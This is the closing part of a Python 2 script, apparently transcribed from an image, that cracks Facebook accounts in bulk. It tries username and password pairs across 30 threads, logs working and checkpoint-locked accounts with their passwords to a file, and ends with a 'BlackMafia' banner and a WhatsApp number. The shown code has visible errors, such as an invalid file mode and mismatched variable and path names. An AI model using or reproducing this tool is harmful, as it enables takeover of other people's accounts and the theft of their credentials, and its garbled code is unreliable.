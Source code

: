 									if 'access_token' in s:
										print '\x1b[1;92mLive\x1b[1;97m-\x1b[1;92m▣\x1b[1;97m-' + user + '-\x1b[1;92m▣\x1b[1;97m-' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in s["error_msg"]:
											print '\x1b[1;91mError\x1b[1;97m-\x1b[1;91m▣\x1b[1;97m-' + user + '-\x1b[1;91m▣\x1b[1;97m-' + pass4
											cek = open("out/checkpoint.txt", "k")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 44*'-'
	print '[✓] Process Has Been Completed ....'
	print '[✓] Total OK/CP : '+str(len(oks))+'/'+str(len(cpb))
	print('[✓] CP File Has Been Saved : save/checkpoint.txt')
	print """
\033[1;93m██████╗░██╗░░░░░░█████╗░░█████╗░██╗░░██╗
\033[1;93m██╔══██╗██║░░░░░██╔══██╗██╔══██╗██║░██╔╝
\033[1;93m██████╦╝██║░░░░░███████║██║░░╚═╝█████═╝░
\033[1;93m██╔══██╗██║░░░░░██╔══██║██║░░██╗██╔═██╗░
\033[1;93m██████╦╝███████╗██║░░██║╚█████╔╝██║░╚██╗
\033[1;93m╚═════╝░╚══════╝╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝
\033[1;92m███╗░░░███╗░█████╗░███████╗██╗░█████╗░
\033[1;92m████╗░████║██╔══██╗██╔════╝██║██╔══██╗
\033[1;92m██╔████╔██║███████║█████╗░░██║███████║
\033[1;92m██║╚██╔╝██║██╔══██║██╔══╝░░██║██╔══██║
\033[1;92m██║░╚═╝░██║██║░░██║██║░░░░░██║██║░░██║
\033[1;92m╚═╝░░░░░╚═╝╚═╝░░╚═╝╚═╝░░░░░╚═╝╚═╝░░╚═╝
 
 Don't Worry Your Error cp ID Will Be Open After 7 Days 

•\033[1;95m◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•.
: \033[1;91m ....lovehacker  BlackMafia....... \033[1;95m :
•\033[1;95m◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•.' 
                WhatsApp Num
              \033[1;91m +923094161457"""
	
	raw_input("\n\033[1;95m[\033[1;91mBack\033[1;95m]")
	login()	
          
if __name__ == '__main__':
	login()
